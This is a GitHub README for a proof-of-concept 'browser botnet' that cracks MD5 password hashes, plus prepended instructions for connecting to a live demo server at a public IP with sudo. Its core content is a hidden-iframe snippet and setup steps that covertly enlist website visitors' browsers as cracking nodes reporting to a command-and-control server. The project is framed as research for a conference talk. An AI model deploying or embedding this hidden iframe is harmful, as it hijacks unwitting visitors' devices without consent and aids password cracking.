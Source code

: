 #How to connect to the live demo

//Commands Needed to run//

git clone

cd CSC698Team01--PasswordCracking

npm install

sudo node client.js 73.158.194.215:3000

//Commands Needed to run//

To view your hashes and etc on the network put this into your web browser:

http://73.158.194.215:3000/

To begin mining please go to the following link

http://73.158.194.215:3000/embed/

If you don't have NPM please install it here:

http://blog.teamtreehouse.com/install-node-js-npm-linux













# Distributed Password Cracking


Borrow CPU cycles from visitor's web browsers to crack MD5 password hashes. Embedding a hidden `<iframe>` to a website will automatically add a visitor's browser as a node in a password cracking botnet. Their browser will received MD5 hashes and password candidates from a command-and-control server and report back any passwords it cracks for the duration of the time the visitor is browsing the "infected" website.

![Screenshot](.screenshot.png)

```html
<!-- add a single iframe embed to *your* website to add all visitors
     as nodes in the password cracking botnet -->
<iframe src="YOUR_WEBSITE.com:3000/embed" style="display:none">
```

This is proof-of-concept code for the [Browser as Botnet talk](http://radicalnetworks.org/participants/brannon-dorsey) ([video](https://livestream.com/internetsociety/radnets17/videos/164720367)) at [Radical Networks 2017](http://radicalnetworks.org/). As such, it **is not** optimized. There are far [more efficient ways](https://github.com/brannondorsey/naive-hashcat) to crack passwords if that is your goal. This project is intended to illustrate how compute jobs can be massively distributed across browsers.

**DISCLAIMER: This software is for educational purposes only. This software should not be used for illegal activity. The author is not responsible for its use. Don't be a dick.**

## Getting Started

```bash
# clone this repo
git clone https://github.com/brannondorsey/distributed-password-cracking
cd distributed-password-cracking

# install the dependencies
npm install

# run the command-and-control server
node server.js
```

Navigate to http://localhost:3000 to view the **unprotected** "admin" panel. This microsite allows you to view the activity of your botnet in real-time. To test that your password cracking network is working, open another browser tab to http://localhost:3000/embed. This creates a browser cracking node and launches one web worker per CPU on your machine. You should now see a connected node on the admin panel.

The server distributes password candidates and MD5 hashes to browser clients continuously as they connect. It uses:

- [`data/passwords.txt`](data/passwords.txt): The first 100,000 passwords from the [Rockyou](https://wiki.skullsecurity.org/Passwords) password dictionary
- [`data/hashes.txt`](data/hashes.txt): The `example0.hash` MD5 hashes distributed with [Hashcat](https://hashcat.net/hashcat/)

Cracked passwords are saved to `data/cracked.txt` like so:

```
5f4dcc3b5aa765d61d8327deb882cf99:password
```

Replace `passwords.txt` and `hashes.txt` to use your own password dictionary and MD5 hashes.

### Embedding the `<iframe>`

Once your server is running adding nodes is as easy as including an iframe in your website. For this to work, your node server has to be publicly accessible from the web. That means setting up port forwarding/ssh tunnels or renting a VPS (on AWS or the like) without a firewall on port 3000. Add the below iframe to whatever web page you would like visitors to crack passwords from:

```html
<iframe src="YOUR_WEBSITE.com:3000/embed" style="display:none">
```
**Note**: The node `server.js` enables CORs by default, but if you are proxying the connection (via Nginx, etc...) you may need to enable CORs on that proxy server as well.

## Future Features

- WebAssembly MD5 hashing. I'm close to this but ran out of time ahead of the talk. I'm reaching near native speeds in my tests, bringing hashrates on my machine from ~700K a second to 5M, nearly an order of magnitude speedup!
- CPU throttling settings

## License and Attribution

This software is released under an MIT license. You are free to use, modify, distribute, and sell it under those terms.
